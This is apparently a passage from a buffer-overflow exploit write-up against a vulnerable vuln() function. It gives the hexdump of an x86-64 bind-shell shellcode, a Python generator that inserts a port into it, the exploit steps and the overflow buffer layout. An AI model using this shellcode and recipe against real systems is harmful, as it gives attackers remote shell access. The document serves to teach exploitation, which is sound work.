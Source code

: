 To assemble the nasm source, from linux:

	# nasm shell.nasm 
	# hexdump -C shell
		00000000  6a 02 5f 6a 01 5e 6a 06  5a 6a 29 58 0f 05 49 89  |j._j.^j.Zj)X..I.|
		00000010  c0 4d 31 d2 41 52 41 52  c6 04 24 02 66 c7 44 24  |.M1.ARAR..$.f.D$|
		00000020  02 7a 69 48 89 e6 41 50  5f 6a 10 5a 6a 31 58 0f  |.ziH..AP_j.Zj1X.|
		00000030  05 41 50 5f 6a 01 5e 6a  32 58 0f 05 48 89 e6 6a  |.AP_j.^j2X..H..j|
		00000040  10 48 89 e2 41 50 5f 6a  2b 58 0f 05 48 89 c7 6a  |.H..AP_j+X..H..j|
		00000050  03 5e 48 ff ce 6a 21 58  0f 05 75 f6 48 31 f6 48  |.^H..j!X..u.H1.H|
		00000060  31 d2 48 bf 2f 2f 62 69  6e 2f 73 68 48 c1 ef 08  |1.H.//bin/shH...|
		00000070  57 54 5f 6a 3b 58 0f 05                           |WT_j;X..|
		00000078


By concatenating the hex representation of this, leaving the PORT string as a placeholder for the given port, here is the python3 code to generate the shellcode which binds a shell to the given port using a socket:

```python
def get_shellcode(port):
	hexcode = "6a025f6a015e6a065a6a29580f054989c04d31d241524152c604240266c7442402PORT4889e641505f6a105a6a31580f0541505f6a015e6a32580f054889e66a104889e241505f6a2b580f054889c76a035e48ffce6a21580f0575f64831f64831d248bf2f2f62696e2f736848c1ef0857545f6a3b580f05"
	    
	# render the port to BIG endian
	hexport = str(binascii.hexlify(bytearray([ (port >> 8) & 0xff, port & 0xff])), 'utf-8')

	# inject the port in the shellcode
	return binascii.unhexlify(bytes(hexcode.replace("PORT",hexport), 'utf-8'))
```

The exploit
-----------

Equipped with all the above, it is possible to write a working exploit, which consists of the following steps:

1. connect to the target
2. get the buffer address (needed because of ASLR, it will change at each execution)
3. send enough data to overflow the buffer in the vuln() function:
	* must contain the shellcode, to be placed in the stack
	* must overwrite the return pointer in the stack with the shellcode address calculated using buffer address
4. once the shellcode is sent, open another connection to the chosen port to access our shell
5. send the commands to the shell to reach our objective

### Buffer overflow

Here is one of the possible buffer designs for a successful buffer overflow attack:

Chunk len | Content 
----------+--------
0x2b0     | 'A' sequence padding
0x8       | frame pointer overwrite (unused, can be 'A'*8 )
0x8       | pointer to shellcode ( buffer addr + 0x2b0 +8 + 8)
0x78      | shellcode
